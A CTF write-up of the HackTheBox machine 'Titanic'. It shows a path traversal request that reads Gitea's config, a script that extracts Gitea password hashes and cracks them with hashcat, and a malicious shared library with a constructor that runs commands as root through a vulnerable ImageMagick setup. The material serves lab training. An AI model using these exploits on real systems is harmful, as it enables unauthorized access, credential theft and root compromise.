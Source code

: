 ```yaml
---
title: HackTheBox | Titanic
published: 2025-02-21
description: "In this write-up, I explain how I gained ownership of Titanic on HackTheBox."
image: "./img/image.png"
tags: [CTF, HTB, write-up]
category: 'CTF'
draft: false
---
```


# Nmap Scan

First, I performed an Nmap scan to identify open ports and running services:

```bash
sudo nmap -sC -sV -T4 10.10.11.55
```

![nmap](image.png)

## Website Enumeration

While exploring the website, I found a **Book Your Trip** button that triggers a form submission.

![button](image-1.png)

After filling out the form and intercepting the request with **BurpSuite**, I followed the redirection and discovered a vulnerable endpoint: `/download?ticket=`.

## Path Traversal Exploit

By attempting **path traversal**, I successfully accessed restricted files. I found a user named **developer** and retrieved the user flag from:

```
/home/developer/user.txt
```

![pathtraversal](image-2.png)

## Subdomain Discovery

I continued testing path traversal to access system files like `/etc/hosts`. I discovered a **subdomain** named `dev`.

![dev](image-3.png)

I added the subdomain to my `/etc/hosts` file:

## Exploiting Gitea for Credentials

The application was running **Gitea**. Searching for its configuration file, I found:

```bash
curl -X GET "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
```

![config](image-4.png)

From the configuration, I located the database at:

```
/data/gitea/gitea.db
```

accessed it using **SQLite**:

```bash
sqlite3 _home_developer_gitea_data_gitea_gitea.db
```

![db](image-5.png)

## Cracking the Hash

from the `htb-compiled` write-up, I extracted and cracked the hash:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do
  digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64);
  salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64);
  name=$(echo $data | cut -d'|' -f3);
  echo "${name}:sha256:50000:${salt}:${digest}";
done | tee gitea.hashes

hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```

![pass](image-6.png)

## SSH Access

Using the cracked password, I logged into the machine via SSH:

```bash
ssh developer@10.10.11.55
```

## Privilege Escalation

While exploring the system, I found a script running as **root** at `/opt/scripts`:

![scripts](image-7.png)

The script used an **ImageMagick** version vulnerable to **Arbitrary Code Execution**. A quick Google search led me to this PoC:

[Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root44_flag.txt");
    exit(0);
}
EOF

touch test.jpg
```

## Retrieving the Root Flag

After triggering the exploit, I retrieved the **root flag** from `/tmp/root44_flag.txt`.

![win](image-8.png)

## Conclusion

This box involved a mix of **web enumeration, path traversal, database extraction, password cracking, and privilege escalation via ImageMagick**. A great learning experience!

